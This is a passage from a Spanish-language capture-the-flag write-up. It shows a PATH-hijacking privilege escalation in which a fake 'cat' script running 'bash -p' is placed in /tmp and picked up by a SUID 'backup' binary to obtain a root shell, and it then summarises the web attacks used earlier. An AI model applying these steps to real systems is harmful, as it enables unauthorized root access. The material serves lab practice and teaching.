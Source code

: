 Ahora nos movemos al directorio `tmp` y creamos el archivo malicioso con nombre `cat`:

```bash
mitsos@LazyClown:/tmp$ echo "bash -p" > cat

mitsos@LazyClown:/tmp$ chmod +x cat
```
Yo por ejemplo he puesto `bash -p` que lo que hace es _spawnear_ una shell atendiendo a los permisos **SUID++.

Lo único que quedaria ahora es ejecutar el archivo **backup**:

```bash
mitsos@LazyClown:~$ ./backup

bash-4.3# whoami
root
```
¡y ya seríamos root! En este punto podemos visualizar la flag de root en /root/root.txt:

```bash
bash-4.3# sed '' /root/root.txt 
990bXXXXXXXXXXXXXXXXXXXXXXXXX515
```

# Resumen

En esta máquina hemos explotado 2 formas de convertirnos en usuario **admin** en la web, un **bit-flipping** y un **padding oracle attack**, accedimos a la máquina como usuario _mitsos_ a través de una clave **id_rsa** que había alojada en la web. Por último, para escalar privilegios, abusamos de un **path hijackin** en un binario **SUID** con el usuario **root** como propietario.




